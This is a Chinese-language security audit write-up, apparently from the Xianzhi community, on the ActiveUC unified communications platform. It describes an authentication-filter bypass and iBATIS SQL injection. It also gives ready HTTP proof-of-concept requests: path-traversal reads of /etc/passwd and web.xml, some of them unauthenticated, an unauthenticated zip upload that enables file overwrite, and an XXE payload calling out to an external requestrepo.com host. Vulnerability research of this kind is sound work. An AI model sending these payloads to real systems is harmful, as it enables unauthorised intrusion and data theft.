# 网动统一通信平台ActiveUC代码审计分析-先知社区

> **来源**: https://xz.aliyun.com/news/19339  
> **文章ID**: 19339

---

# 介绍

网动统一通信平台（ActiveUC）是由北京网动网络科技股份有限公司开发的一款集成文字、语音、视频等多种沟通方式的企业级通信平台，旨在提升用户沟通效率和便利性。该平台支持多种通信设备和协议，具有高度的兼容性和灵活性，能够适应不同的网络环境和工作需求。通过将VoIP电话、电子邮件等多种沟通方式融合在一个统一的界面中，网动统一通信平台为企业提供了一个高效、便捷的沟通环境，助力提升团队协作和生产力。



# 代码审计

## 鉴权分析

项目采用struts2开发，鉴权是通过配置拦截器实现的



一共定义了三个拦截器

### global



注释是全局配置，定义了个拦截器栈interceptorStack，加载了pagerInterceptor和exceptionInterceptor和框架内置的defaultStack

跟进两个自定义类的intercept方法(调用拦截器自动触发)



从http请求中提取分页偏移量、页面大小和语言设置



拦截请求执行过程，捕获所有未处理的异常，打印错误信息并返回500错误响应。

### globalAndVerify



用户鉴权拦截器，分别是verifyLogInfoInterceptor和pagerInterceptor

跟进实现



获取session判断是否存在logonInfo值对应的记录，pagerInterceptor前面看过了

### globalAndVerifyForCall



调用的是VerifyUserInfoInterceptor



获取session，判断是否存在userInfo对应的用户记录

那么寻找继承了这两个鉴权拦截器的配置接口就是需要鉴权的



globalAndVerifyForCall没有继承



除了这些外在一些方法代码实现中也有鉴权



还有一些获取session中值的封装方法调用

### UserFilter.java

还有个鉴权Filter，但是我没找到注册



标注了白名单接口，这里的路由匹配使用的是contains方法，模糊匹配是有问题的，可以构造/downloads/../admin/info触发敏感接口或文件

## 多处SQL注入

项目采用iBATIS+JDBC原生两种sql\_API，jdbc的初步看了下大部分都是预编译或者值从数据库获取，iBATIS倒是有多处注入，这里分析其中一处

全局搜索$



UserImportTemp.xml中的listUserImportTempByTemps



这里PK\_TEMP是非预编译写法，寻找调用

跟进方法调用，UserAction.java中的exportUsers方法



temps通过getParameter获取，我们完全可控，存在注入，寻找Action配置





这里继承globalAndVerify，要登录

## 任意文件下载

搜索关键词 new FileInputStream( || new BufferedInputStream(

### 第一处

定位到DownloadTask.java中的RenderDownloadFile方法



文件下载实现代码，寻找方法调用，关注第3个参数path的传参

UserAction.java中的downloadUserTemplate方法



可以看到realpath是绝对路径加上path，path通过getParameter获取，寻找UserAction触发调用配置



可惜也要鉴权

构造poc

```
POST /acenter/user!RenderDownloadFile.action HTTP/1.1
Host: 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=A9BD371832D4EDC9EF85636EF484A417; JSESSIONID=8962B799CDBD332CFAAD14448C39DC48
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 37

filePath=../../../../../../etc/passwd
```

### 第二处

定位到DownloadTask.java中的streamDownloadFile方法



很简单的文件下载方法，寻找调用查看path是否可控

定位到MeetingAction.java中的downloadDocument



代码很短，filepath直接通过getParameter获取可控，后续带入方法，存在任意文件读取，搜索类触发规则



这里继承了globalAndVerify，需要鉴权

构造poc

```
POST /acenter/meeting!downloadDocument.action HTTP/1.1
Host: 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=A9BD371832D4EDC9EF85636EF484A417; JSESSIONID=8962B799CDBD332CFAAD14448C39DC48
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 37

filePath=../../../../../../etc/passwd
```

除了这个可以看到还有个配置





这个没有继承权限拦截器，那么这个可以前台触发

```
GET /acenter/meetingShow!downloadDocument.action?filePath=WEB-INF/web.xml HTTP/1.1
Host: 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=A9BD371832D4EDC9EF85636EF484A417; JSESSIONID=8962B799CDBD332CFAAD14448C39DC48
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
```

## 前台文件上传

搜索关键词：upload || .getFileFileName(



VersionAction.java中的editVersion方法



225行获取原始文件名，226获取上传文件后缀，然后判断是否为zip或者apk，如果是zip调用fileUpload.uploadAndUnzip方法，跟进方法实现



判断文件是否存在，然后判断目录是否存在，不存在则创建，然后遍历上传的文件，将每个文件复制到指定目录，并根据文件名是否包含"OEM"或"oem"决定解压路径，最后调用ZipUtils.Unzip方法进行解压，跟进Unzip方法



这里解压文件时存在内容校验，不能等于jsp或jspx，那么这里就要考虑截断类的操作了，例如windows的::$DATA

并且这里解压没有校验文件中的..情况，会照常文件覆盖，也可以尝试覆盖关键文件尝试getshell

查看对应class触发规则



两种，跟进查看是否继承鉴权



无需鉴权

poc

```
POST /acenter/versionCtr!editVersion.action HTTP/1.1
Host: 
Accept-Language: zh-CN,zh;q=0.9
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarywwCSm8qxaqfd10tO
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Cookie: JSESSIONID=B4698A0CA02F65FBDFFDFF65E678421C; JSESSIONID=C328F8EFF0C336B43249F69A7790D4E3
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Cache-Control: max-age=0
Content-Length: 1075

------WebKitFormBoundarywwCSm8qxaqfd10tO
Content-Disposition: form-data; name="APP"

3
------WebKitFormBoundarywwCSm8qxaqfd10tO
Content-Disposition: form-data; name="IA_OEM_KEY"

iactive
------WebKitFormBoundarywwCSm8qxaqfd10tO
Content-Disposition: form-data; name="IA_BASE_VERSION"

8.0.3.10
------WebKitFormBoundarywwCSm8qxaqfd10tO
Content-Disposition: form-data; name="IA_CURRENT_VERSION"

8.0.3.10
------WebKitFormBoundarywwCSm8qxaqfd10tO
Content-Disposition: form-data; name="fileUpload.file"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundarywwCSm8qxaqfd10tO
Content-Disposition: form-data; name="fileUpload.file"; filename="test.zip"
Content-Type: application/x-zip-compressed

PK
```

## 前台XXE

关键词：DocumentHelper

定位到CheckUserAction.java



调用DocumentHelper.parseText解析xml文档，来源是通过getParameter获取的AuthorizedInfo，这里完全可控，存在XXE，查看Action的配置路由





继承的是global，前台可触发，代码中也没有鉴权实现，前台XXE

对应的POC

```
POST /acenter/gsCheckUser.action HTTP/1.1
Host:
Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image
/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=A9BD371832D4EDC9EF85636EF484A417;
JSESSIONID=8962B799CDBD332CFAAD14448C39DC48
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML,
like Gecko) Chrome/141.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
AuthorizedInfo=%3c%3f%78%6d%6c%20%76%65%72%73%69%6f%6e%3d%22%31%2e%30%22%20%65%6e
%63%6f%64%69%6e%67%3d%22%55%54%46%2d%38%22%3f%3e%3c%21%44%4f%43%54%59%50%45%20%72
%6f%6f%74%20%5b%3c%21%45%4e%54%49%54%59%20%25%20%72%65%6d%6f%74%65%20%53%59%53%54
%45%4d%20%22%68%74%74%70%3a%2f%2f%79%66%6a%65%67%31%6f%33%2e%72%65%71%75%65%73%74
%72%65%70%6f%2e%63%6f%6d%22%3e%25%72%65%6d%6f%74%65%3b%5d%3e
```
